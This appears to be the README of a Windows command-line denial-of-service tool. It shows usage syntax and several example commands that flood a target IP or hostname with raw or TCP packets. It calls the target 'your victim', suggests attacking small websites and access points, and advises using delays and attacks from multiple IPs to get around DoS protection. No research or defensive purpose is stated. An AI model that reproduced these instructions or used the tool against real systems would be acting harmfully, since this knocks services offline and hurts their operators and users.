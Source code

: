 # DoS Attacker
A simple cmd DoS Attacker for Windows.

**Please note that most websites have DoS protection. You can use it to attack small websites and access points. Use it at your own risk.**
## Usage:
*"Dos Attacker.exe" target_ip /mode args package_size delay*

*target_ip* is the IP address of your victim. You can get it using *ping www.example.com -a*.  
*/mode* is the mode to use: */port* for TCP attack (args is the port) **or** */raw* for raw attack (args is NULL).  
*package_size* is the size of the package that will be send to the victim each time.  
*delay* is the time (in milliseconds) that every thread waits between each package.

**Examples:**  
*"DoS Attacker.exe" 10.100.102.1 /raw 8195 0*  

*"DoS Attacker.exe" www.example.com /raw 8195 0*  

*"DoS Attacker.exe" 10.100.102.1 /port 80 8195 0*

*"DoS Attacker.exe" 10.100.102.1 /port http 8195 0*

*"DoS Attacker.exe" www.example.com /port http 8195 0*

**Important:**

package_size can't be more than SO_MAX_MSG_SIZE (it's usually 8195).  

## How it works:
The program connects to the server, using the mode you chose.  
Next, it creates a thread that attack the victim. This thread attacks the victim as fast as it can.  
If any error occors (let's say, the victim closes the connection) the thread stops and the program closes.

If you want to trick a victim with DoS protection, you should use a delay and perform a DDoS attack (attack from multiple IPs).  
Your connection speed is also important for your attack success. Slow connection won't affect the victim.
